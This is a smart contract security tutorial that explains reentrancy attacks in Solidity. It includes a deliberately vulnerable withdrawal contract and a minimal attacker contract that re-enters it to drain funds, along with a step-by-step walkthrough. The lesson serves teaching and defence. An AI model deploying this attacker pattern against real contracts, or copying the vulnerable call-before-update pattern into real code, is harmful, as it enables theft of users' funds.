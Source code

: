 ```yaml
---
title: Exploit - Reentrancy
---
```


_Follow along with this video:_

---

Let's see if we can nail down this vulnerability. When we'd run `Slither` earlier, you may recall it had actually found something...

Run it again and we'll have a closer look.

```bash
slither .
```

Looking through the output, we can see `Slither` is in fact detecting things in our `refund` function!

::image{src='/security-section-4/18-exploit-reentrancy/exploit-reentrancy1.png' style='width: 75%; height: auto;'}

### What is a re-entrancy attack and how does it work?

For this lesson we'll be heavily leaning on our [**sc-exploits-minimized**](https://github.com/Cyfrin/sc-exploits-minimized) repo for diagrams and examples to reference. Be sure to clone it so you can see how these vulnerabilities work locally.

Here's our example contract:

```js
contract ReentrancyVictim {
    mapping(address => uint256) public userBalance;

    function deposit() public payable {
        userBalance[msg.sender] += msg.value;
    }

    function withdrawBalance() public {
        uint256 balance = userBalance[msg.sender];
        // An external call and then a state change!
        // External call
        (bool success,) = msg.sender.call{value: balance}("");
        if (!success) {
            revert();
        }

        // State change
        userBalance[msg.sender] = 0;
    }
}
```

Fairly simple. Under normal circumstances

User A (balance 10 ether) can deposit funds

1. deposit{value: 10 ether}

```js
userBalance[UserA] = 10 ether
contract balance = 10 ether
User A balance = 0 ether
```

And then withdraw them

2. withdrawBalance

```js
userBalance[UserA] = 0 ether
contract balance = 0 ether
User A balance = 10 ether
```

The order of operations is really important in these situations. In our `withdrawBalance` function, we see that the function is making an external call _before_ updating the state of the contract.

What this means, is that an attacker could have that external call be made in such a way that it triggers a call of the `withdrawBalance` function again (hence - reentrancy).

```js
contract ReentrancyAttacker {
    ReentrancyVictim victim;

    constructor(ReentrancyVictim _victim) {
        victim = _victim;
    }

    function attack() public payable {
        victim.deposit{value: 1 ether}();
        victim.withdrawBalance();
    }

    receive() external payable {
        if (address(victim).balance >= 1 ether) {
            victim.withdrawBalance();
        }
    }
}
```

Consider the above attack contract. Seems pretty benign, but let's walk through what's actually happening.

1. Attacker calls the attack function which deposits 1 ether, then immediately withdraws it.

```js
function attack() public payable {
        victim.deposit{value: 1 ether}();
        victim.withdrawBalance();
    }
```

2. The `ReentrancyVictim` contract does what's it's supposed to and received the deposit, then process the withdrawal. During this process the victim contract makes a call to the attacker's contract.

**NOTE: THIS IS BEFORE OUR BALANCE HAS BEEN UPDATED**

```js
(bool success,) = msg.sender.call{value: balance}("");
        if (!success) {
            revert();
        }
```

What happens when a contract receives value? It's going have it's receive/fallback functions triggered. And what does our Attacker's receive function look like?

```js
receive() external payable {
        if (address(victim).balance >= 1 ether) {
            victim.withdrawBalance();
        }
    }
```

It calls the `withdrawBalance` function again! Because our previous `withdrawBalance` hasn't updated our balance yet, the contract will happily let us withdraw again.. and again .. and again until all funds are drained.

Let's look at this all put together.

::image{src='/security-section-4/18-exploit-reentrancy/exploit-reentrancy2.png' style='width: 75%; height: auto;'}

### Wrap Up

Re-entrancy is a a big deal and it's very impactful when it happens. We're really going to nail down our understanding of this attack vector before moving on.

At it's most minimalistic, re-entrancy generates a loop that continually drains funds from a protocol.

::image{src='/security-section-4/18-exploit-reentrancy/exploit-reentrancy3.png' style='width: 75%; height: auto;'}

Our next lesson is going to be a hands on example of this vulnerability in Remix. Let's see what this exploit is like in action.
